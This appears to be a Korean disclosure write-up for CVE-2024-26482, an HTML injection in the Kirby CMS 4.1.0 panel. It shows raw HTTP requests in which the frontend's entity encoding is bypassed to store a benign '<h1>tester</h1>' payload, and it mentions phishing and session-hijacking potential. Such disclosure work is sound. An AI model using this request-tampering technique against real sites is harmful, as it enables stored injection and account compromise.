


# CVE-2024-26482

담당자: 이준수
업로드: No
업로드날짜: 2024년 2월 22일
작성 날짜: 2024년 2월 22일

Tag : {Kirby CMS, HTML Injection, pwndorei}

## Title

CVE-2024-26482 : Kirby CMS의 HTML Injection 취약점

## URL

[https://shrouded-trowel-50c.notion.site/Kirby-CMS-4-1-0-HTML-Injection-19ca19686d0a4533ab4b0c53fc977eef?pvs=4](https://www.notion.so/CVE-2024-26482-Kirby-CMS-4-1-0-HTML-Injection-19ca19686d0a4533ab4b0c53fc977eef?pvs=21)

## Target

- Kirby CMS 4.1.0

## Explain

파일 기반 CMS(콘텐츠 관리 시스템)인 Kirby CMS에서 HTML Injeciton 취약점이 발생했습니다.

취약점은 아래의 관리 패널에서 콘텐츠 레이아웃을 수정할 때 발생합니다.



위처럼 레이아웃에 HTML 코드를 추가하면 아래와 같은 HTTP 요청이 발생합니다.

```
POST /BGZUwFZY/api/pages/microsite HTTP/1.1
Host: trykirby.com
Cookie: kirby_session=910521efece58be7ce81f24f7c2b5978f21a791a%2B1707762274.dd8b11107e02a3859af3.2da7b8302b8e19193900caedabf370a68d674e23f80cf58135327d573242604b; instance=410dd31498585dbf2529a45d1da40600f8a7c87c%2Bhttps%3A%2F%2Ftrykirby.com%2FBGZUwFZY%2F; snipcart-cart=37440eed-2a09-4ed3-b534-515b00f4301c
Content-Length: 371
Sec-Ch-Ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
X-Language: null
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Content-Type: application/json
X-Csrf: dffaa6b125814485f872c3bfb34fa828d0bdbb5597fa0cbfcd8306bf6f302683
X-Http-Method-Override: PATCH
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://trykirby.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: same-origin
Sec-Fetch-Dest: empty
Referer: https://trykirby.com/BGZUwFZY/panel/pages/microsite?tab=content
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

{
  "modules": [
    {
      "attrs": [],
      "columns": [
        {
          "blocks": [
            {
              "content": {
                "text": "<p>&lt;h1&gt;tester&lt;/h1&gt;</p>"
              },
              "id": "970d3d93-f87c-4a36-a912-018a262e3b1d",
              "isHidden": false,
              "type": "text"
            }
          ],
          "id": "4007332a-999e-4aa2-966b-53ddc76b0ae2",
          "width": "1/1"
        }
      ],
      "id": "36dc9245-8867-4f8a-b2cd-2496d3998ffa"
    }
  ],
  "description": "Representative one-pagers for your product",
  "uuid": "VZlscZfc8c5gEiwM"
}
```

삽입한 `<h1>tester</h1>` HTML 코드에서 `<`, `>`가 HTML 엔티티로 인코딩되고 `p` 태그에 감싸져서 전달되는 것을 확인할 수 있습니다.

하지만 이러한 변환이 프론트엔드에서 이루어지기 때문에 아래와 같이 임의의 HTML 코드로 요청을 변조하는 것이 가능합니다.

```
POST /BGZUwFZY/api/pages/microsite HTTP/1.1
Host: trykirby.com
Cookie: kirby_session=910521efece58be7ce81f24f7c2b5978f21a791a%2B1707762274.dd8b11107e02a3859af3.2da7b8302b8e19193900caedabf370a68d674e23f80cf58135327d573242604b; instance=410dd31498585dbf2529a45d1da40600f8a7c87c%2Bhttps%3A%2F%2Ftrykirby.com%2FBGZUwFZY%2F; snipcart-cart=37440eed-2a09-4ed3-b534-515b00f4301c
Content-Length: 352
Sec-Ch-Ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
X-Language: null
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Content-Type: application/json
X-Csrf: dffaa6b125814485f872c3bfb34fa828d0bdbb5597fa0cbfcd8306bf6f302683
X-Http-Method-Override: PATCH
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://trykirby.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: same-origin
Sec-Fetch-Dest: empty
Referer: https://trykirby.com/BGZUwFZY/panel/pages/microsite?tab=content
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

{
  "modules": [
    {
      "attrs": [],
      "columns": [
        {
          "blocks": [
            {
              "content": {
                "text": "<h1>tester</h1>"
              },
              "id": "970d3d93-f87c-4a36-a912-018a262e3b1d",
              "isHidden": false,
              "type": "text"
            }
          ],
          "id": "4007332a-999e-4aa2-966b-53ddc76b0ae2",
          "width": "1/1"
        }
      ],
      "id": "36dc9245-8867-4f8a-b2cd-2496d3998ffa"
    }
  ],
  "description": "Representative one-pagers for your product",
  "uuid": "VZlscZfc8c5gEiwM"
}
```

수정된 레이아웃을 확인해보면 아래와 같이 삽입된 HTML 코드가 그대로 페이지에 나타나는 것을 볼 수 있습니다.



해당 취약점은 악의적인 HTML, Javascript 코드를 삽입하여 피싱이나 세션 하이재킹 등에 악용될 가능성이 있으며 아직 패치는 이루어지지 않은 상태입니다.